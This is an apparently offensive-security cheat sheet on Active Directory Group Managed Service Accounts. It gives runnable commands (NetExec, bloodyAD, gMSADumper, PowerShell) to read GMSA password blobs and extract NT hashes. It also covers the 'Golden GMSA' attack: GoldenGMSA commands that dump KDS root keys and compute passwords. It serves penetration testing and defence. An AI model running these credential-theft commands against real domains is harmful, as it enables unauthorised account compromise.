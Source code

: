 # Password - GMSA

## Reading GMSA Password

> User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically rotated every 30 days to a randomly generated password of 256 bytes.

### GMSA Attributes in the Active Directory

* `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) - stores the security principals that can access the GMSA password.
* `msds-ManagedPassword` - This attribute contains a BLOB with password information for group-managed service accounts.
* `msDS-ManagedPasswordId` - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* `msDS-ManagedPasswordInterval` - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.

### Extract NT hash from the Active Directory

* [Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

  ```ps1
  netexec ldap 10.10.10.10 -u user -p pass --gmsa

  # Use --lsa to get GMSA ID
  netexec ldap domain.lab -u user -p 'PWD' --gmsa-convert-id 00[...]99
  netexec ldap domain.lab -u user -p 'PWD' --gmsa-decrypt-lsa '_SC_GMSA_{[...]}_.....'
  ```

* [CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

  ```ps1
  bloodyAD --host 10.10.10.10 -d crash.lab -u john -p 'Pass123*' get search --filter '(ObjectClass=msDS-GroupManagedServiceAccount)' --attr msDS-ManagedPassword
  ```

* [franc-pentest/ldeep](https://github.com/franc-pentest/ldeep)

  ```ps1
  ldeep ldap -s dc1.domain.local -u 'username' -p 'P@ssw0rd' -d domain.local gmsa
  ```

* [rvazarkar/GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)

  ```ps1
  GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
  ```

* [micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

   ```powershell
  python3 gMSADumper.py -u User -p Password1 -d domain.local
  ```
  
* Active Directory Powershell

  ```ps1
  $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
  $blob = $gmsa.'msDS-ManagedPassword'
  $mp = ConvertFrom-ADManagedPasswordBlob $blob
  $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
  ```

* [kdejoyce/gMSA_Permissions_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module

## Forging Golden GMSA

> One notable difference between a **Golden Ticket** attack and the **Golden GMSA** attack is that they no way of rotating the KDS root key secret. Therefore, if a KDS root key is compromised, there is no way to protect the gMSAs associated with it.

:warning: You can't "force reset" a gMSA password, because a gMSA's password never changes. The password is derived from the KDS root key and `ManagedPasswordIntervalInDays`, so every Domain Controller can at any time compute what the password is, what it used to be, and what it will be at any point in the future.

* Using [GoldenGMSA](https://github.com/Semperis/GoldenGMSA)

    ```ps1
    # Enumerate all gMSAs
    GoldenGMSA.exe gmsainfo
    # Query for a specific gMSA
    GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112

    # Dump all KDS Root Keys
    GoldenGMSA.exe kdsinfo
    # Dump a specific KDS Root Key
    GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb

    # Compute gMSA password
    # --sid <gMSA SID>: SID of the gMSA (required)
    # --kdskey <Base64-encoded blob>: Base64 encoded KDS Root Key
    # --pwdid <Base64-encoded blob>: Base64 of msds-ManagedPasswordID attribute value
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # requires privileged access to the domain
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45UZXyuYB[...]G2/M= # requires LDAP access
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45U[...]SM0R7djG2/M= --pwdid AQAAA[..]AAA # Offline mode
    ```

## References

* [Introducing the Golden GMSA Attack - YUVAL GORDON - March 01, 2022](https://www.semperis.com/blog/golden-gmsa-attack/)
* [Hunt for the gMSA secrets - Dr Nestori Syynimaa (@DrAzureAD) - August 29, 2022](https://aadinternals.com/post/gmsa/)
* [Practical guide for Golden SAML - Practical guide step by step to create golden SAML](https://nodauf.dev/p/practical-guide-for-golden-saml/)

